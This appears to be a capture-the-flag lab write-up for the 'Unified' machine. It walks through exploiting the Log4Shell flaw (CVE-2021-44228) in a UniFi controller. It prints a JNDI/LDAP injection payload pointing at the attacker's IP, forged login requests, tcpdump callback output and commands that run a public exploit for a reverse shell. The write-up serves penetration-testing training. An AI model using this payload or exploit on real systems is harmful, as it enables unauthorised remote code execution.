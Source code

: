 # MACHINE - UNIFIED

IP: 10.129.96.149

Type: Linux

---

## OPEN PORTS

```bash
$ nmap -sVC -T4 -Pn -p- {IP}
```

- [1] 22/tcp ssh **OpenSSH 8.2p1**
- [2] 6789/tcp ibm-db2-admin?
- [3] 8080/tcp http-proxy

1. Might be redirecting requests
2. Did not follow redirect to http://{IP}:8443/manage

- [4] 8443/tcp ssl/nagios-nsca **Nagios NSCA**

1. Requested resource was `/manage/account/login?redirect=%2Fmanage`

---

## INVESTING THE SITE

- Opening `http://{IP}:8080/` being redirected to `http://{IP}:8443/manage/account/login?...`
- Found software named **UniFi 6.4.54** (JAVA backend)

> *UniFi* is a community of wireless access points, switches, routers, controller devices, 
> VoIP phones, and access control products. It can be used for the corporate network and 
> also for the home network. An Unifi network controller manages all the equipment in the 
> UNIFI network.

- There is a CVE [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) releated to UniFi
- The vulnerability is a *Log4J Remote Code Execution*

> *CVE-2021-44228*: Apache Log4j2 2.0-beta9 through 2.15.0 JNDI features used in configuration,
> log messages, and parameters do not protect against attacker controlled LDAP and other JNDI 
> releated endpoints. An attacker who can control log messages or log message parameters can 
> execute arbitrary code loaded from LDAP servers when message lookup subtitution is enabled.

- More on: https://www.hackthebox.com/blog/Whats-Going-On-With-Log4j-Exploitation

> *JNDI* (Java Naming and Directory Interface) is the naming service used to register services 
> in distributed contexts and recall them using a mnemonic name. This is a register that 
> maintains the association between a name and an application server service in a data structure.
> JNDI managed objects are stored in binding files. This storage can be based on file systems or 
> LDAP (Lightweight Directory Access Protocol)

> *LDAP* (Lightweight Directory Access Protocol) is a mature, flexible, and well supported 
> standards-based mechanism for interacting with directory servers. It’s often used for 
> authentication and storing information about users, groups, and applications, but an LDAP 
> directory server is a fairly general-purpose data store and can be used in a wide variety 
> of applications. In LDAP all informations are encrypted and transmitted using BER
> (Basic Encoding Rules).

- Interesting port for LDAP are

1. 389/TCP Clear-Text connection
2. 636/TCP Encrypted Connection

---

## LOG4J VULNERABILITY EXPLOIT

- Let's try to use BurpSuite as the middle-man to see requests
- Set up a Manual proxy on localhost:8080
- When given credentials to access this is the request

```
POST /api/login HTTP/1.1
Host: 10.129.149.239:8443
Content-Length: 69
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Content-Type: application/json; charset=utf-8
Accept: */*
Origin: https://10.129.149.239:8443
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://10.129.149.239:8443/manage/account/login?redirect=ldap
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
Connection: close

{"username":"admin","password":"admin","remember":false,"strict":true}
```

- We can see that the request is done to `/api/login`
- We can send the request to the Repeater to see how it behaves with different requests
- To exploit the Log4J vulnerability with JNDI we need to put a specific payload

```
${jndi:ldap://{malicious-IP}:{remote-port}/any}
```

> In this case, Log4j will try to execute code named 'any' hosted by 'malicious-IP'
> on port 'remote-port' using the LDAP communiction protocol. If we attempt to use
> this payload and we have a netcat listener up and running we will receive a connection.

- To this end let's put this payload on the `remember` request parameter
- Hence, we forge a new request

```
POST /api/login HTTP/1.1
Host: 10.129.149.239:8443
Content-Length: 69
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Content-Type: application/json; charset=utf-8
Accept: */*
Origin: https://10.129.149.239:8443
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://10.129.149.239:8443/manage/account/login?redirect=ldap
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
Connection: close

{
    "username":"admin",
    "password":"admin",
    "remember":"${jndi:ldap://{MyIP}/any}",
    "strict":true
}
```

- We obtain a response

```
HTTP/1.1 400 
vary: Origin
Access-Control-Allow-Origin: https://10.129.149.239:8443
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Access-Control-Allow-Origin
X-Frame-Options: DENY
Content-Type: application/json;charset=UTF-8
Content-Length: 64
Date: Fri, 19 Apr 2024 08:06:45 GMT
Connection: close

{"meta":{"rc":"error","msg":"api.err.InvalidPayload"},"data":[]}
```

- This shows an error but indeed it is executing the payload
- We can use `tcpdump` to see the requests and responses

```bash
$ sudo tcpdump -i tun0 port 389

10:06:45.345009 IP 10.129.149.239.50242 > 10.10.16.167.ldap: Flags [S]
10:06:45.345093 IP 10.10.16.167.ldap > 10.129.149.239.50242: Flags [R.]
```

- It is trying to connect back to us on the LDAP port showing that it is vulnerable
- There is a repo: https://github.com/puzzlepeaches/Log4jUnifi
- This repository contains a Python exploit for the Log4J vulnerability of UniFi
- As usual let's start a Netcat listener, then execute the exploit

```bash
$ git clone https://github.com/puzzlepeaches/Log4jUnifi
$ cd Log4jUnifi
$ python3 exploit.py -u http://{IP}:8443 -i {MyIP} -p {remote-port}

script /dev/null -c bash
shell> 
```

---

## FLAGS

USER: 

ROOT: 